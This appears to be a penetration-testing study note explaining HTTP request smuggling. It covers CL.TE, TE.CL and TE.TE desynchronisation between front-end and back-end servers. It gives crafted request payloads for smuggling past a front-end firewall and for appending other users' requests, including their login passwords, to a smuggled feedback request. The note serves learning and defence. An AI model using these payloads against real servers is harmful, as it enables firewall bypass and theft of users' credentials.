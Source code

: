 # HTTP Request Smuggling

HTTP Request Smuggling is a vulnerability that occurs due to the mismatch in how different servers handling a web request interprets the boundaries of a HTTP request. The headers involved in this attack are the `Content-Length` and `Transfer-Encoding` headers.

### Exploring the components of a modern web application

There may be multiple servers involved for a single request to a web server (`GET`, `POST`, etc.):

1. Front-end server that forwards request to the back-end server
   * reverse proxy
   * load balancer
2. Back-end server that processes the request and communicates with other components:
   * Database
   * Other services

### How can a HTTP Request Smuggling vulnerability occur?

> Refer to the [notes](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/general-web-knowledge/http-headers/request-smuggling) on the `Content-Length` and `Transfer-Encoding` headers for more information

The vulnerability arises when the servers involved in the request interprets the HTTP request boundaries differently. This can happen in the following scenarios;

1. Both the `Content-Length` and `Transfer-Encoding` headers are present
2. The front-end server prioritizes `Content-Length` , while the back-end prioritizes `Transfer-Encoding` , and vice versa
   * Indicated as _**CL.TE**_ and _**TE.CL**_ respectively&#x20;

Sometimes, _**TE.TE**_ can happen too, when both the front-end and back-end servers uses the `Transfer-Encoding` header. In this case, a certain technique can be used to workaround this.

For the attack to work, a duplicate `Transfer-Encoding`  header can be added with a malformed and invalid value such as:

```http
POST / HTTP/1.1
...
Transfer-Encoding chunked
Transfer-Encoding random-invalid-value

xx
...
0
```



### Basic example of an attack

Let's assume that the front-end server prioritizes  `Content-Length` while the back-end prioritizes `Transfer-Encoding` . A HTTP request can be crafted to exploit the HTTP Request Smuggling vulnerability:

```http
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 140
Transfer-Encoding: chunked

0

POST /smuggled-request HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

name=test&query=test
```

#### Front-end server

In the following payload, the front-end server will first interpret the boundaries based on the `Content-Length` header (value of **140**). This will interpret the entire request up to the end of the data body as a single request, and forward it to the back-end server.

#### Back-end server

The back-end server will interpret the boundaries based on the `Transfer-Encoding` header, and  interpret the chunk size to be 0, and treat the first request to be:

```http
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 140
Transfer-Encoding: chunked

0 
```

Consequently, it will treat the second request as:

```http
POST /smuggled-request HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

name=test&query=test
```

### Variants of the attack

#### 1. Bypass firewalls

Given that the second request should usually be blocked by the firewall running on the front-end server, by exploiting the HTTP Request Smuggling vulnerability, we have effectively bypassed the defense. Furthermore, the second request may not be logged at all by the servers.

#### 2. Appending legitimate user request to the smuggled body

Assume the same front and back-end server configurations. Suppose there exists a feedback page that sends a POST request:

```http
POST /feedback HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: xx

name=name&query=query
```

We can craft the payload:

```http
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 140
Transfer-Encoding: chunked

0

POST /feedback HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 600

name=name&query=query
```

Notice that the `Content-Length` value for the smuggled request is **600**, which is way larger than the content body that is supplied. In this case, the back-end server will pause and wait for the additional data to fill up the size of **600**, before processing the request. Consequently, legitimate user requests may be appended to the smuggle request.

Suppose we have found another separate vulnerability that allows us to view the requests log that we have sent. Since the legitimate user's request have been appended to our smuggled request, we can now view the contents of their request, which might contain sensitive information.

Eg.

```http
POST /feedback HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 600

name=name&query=queryPOST /login HTTP/1.1
Host: ...
...
user=user&password=pass1234
```
